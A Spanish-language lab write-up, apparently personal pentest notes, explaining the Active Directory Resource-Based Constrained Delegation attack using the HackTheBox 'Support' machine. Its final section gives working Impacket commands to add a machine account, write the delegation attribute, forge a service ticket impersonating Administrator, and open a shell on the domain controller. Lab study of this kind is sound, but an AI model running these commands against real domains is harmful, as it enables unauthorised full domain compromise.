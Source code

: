 # Resource-Based Constrained Delegation (RBCD) ATTACK

## Descripción de la Vulnerabilidad
Resource-Based Constrained Delegation (RBCD) es una característica de Active Directory (AD) que permite a un recurso (como una cuenta de computadora) especificar qué cuentas pueden delegar autenticación en su nombre. A diferencia de la delegación restringida tradicional, donde el delegador (origen) define los servicios a los que puede delegar, en RBCD el recurso objetivo define quién puede delegar hacia él mediante el atributo `msDS-AllowedToActOnBehalfOfOtherIdentity`.

### ¿Por qué es una vulnerabilidad?
Si un atacante obtiene control sobre una cuenta con permisos para modificar el atributo `msDS-AllowedToActOnBehalfOfOtherIdentity` de un recurso (como una cuenta de computadora del controlador de dominio), puede configurar RBCD para permitir que una cuenta controlada por el atacante (e.g., una cuenta de computadora creada por él) delegue autenticación hacia ese recurso. Esto permite al atacante impersonar a cualquier usuario (como `Administrator`) y obtener acceso al recurso objetivo, como el controlador de dominio.

### Ejemplo de HTB SUPPORT

En este caso, el usuario `support` tenía permisos `GenericAll` o `GenericWrite` sobre la cuenta de computadora del DC (`DC$`), lo que permitió modificar el atributo `msDS-AllowedToActOnBehalfOfOtherIdentity` y abusar de RBCD para impersonar a `Administrator`.

completo al Dominio: Al impersonar a `Administrator`, el atacante puede obtener una shell en el controlador de dominio y comprometer todo el dominio.

---

## Identificación de la Vulnerabilidad
Para identificar si RBCD puede ser explotado en un entorno Active Directory, necesitamos buscar cuentas que tengan permisos para modificar el atributo `msDS-AllowedToActOnBehalfOfOtherIdentity` de otras cuentas (especialmente cuentas de computadoras privilegiadas, como la del controlador de dominio).


### Identificación con bloodhound

---

![alt text](./rbcd-1.png)

---

![alt text](./rbcd-2.png)

---


### Herramientas Necesarias
- BloodHound: Para identificar relaciones y permisos en el dominio.
- ldapsearch o PowerView: Para enumerar permisos manualmente.
- Impacket: Para verificar permisos y explotar la vulnerabilidad.
- Rubeus: Para realizar ataques de Kerberos y obtener tickets TGT.

## Pasos de explotación
- `addcomputer.py -dc-ip 10.10.11.174 support.htb/support:Ironside47pleasure40Watchful -computer-name attackersystem -computer-pass Summer2018!`
    - Utilizamos addcomputer.py para crear una computadora en el dominio con el usuario que identificamos como vulnerable.
- `addcomputer.py 'resourced.local/l.livingstone' -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'COMPUTER$' -computer-pass 'SomePassword' -dc-host RESOURCEDC.RESOURCED.LOCAL -domain-netbios resourced`
- `rbcd.py -dc-ip 10.10.11.174 -action write -delegate-to DC$ -delegate-from attackersystem$ support.htb/support:Ironside47pleasure40Watchful`
    - Usamos rbcd.py para modificar el atributo msDS-AllowedToActOnBehalfOfOtherIdentity de DC$ y permitir que attackersystem$ delegue.
- `getST.py -dc-ip 10.10.11.174 -spn host/DC.SUPPORT.HTB -impersonate Administrator support.htb/attackersystem$:Summer2018!`
    - Usamos getST.py para realizar el ataque S4U (S4U2self y S4U2proxy) y obtener un ticket de servicio (TGS) para host/DC.SUPPORT.HTB como Administrator
- Exportamos el ticket `export KRB5CCNAME=$(pwd)/Administrator.ccache`
- Nos conectamos como Administrator al DC: `wmiexec.py -k -no-pass support.htb/Administrator@DC.SUPPORT.HTB`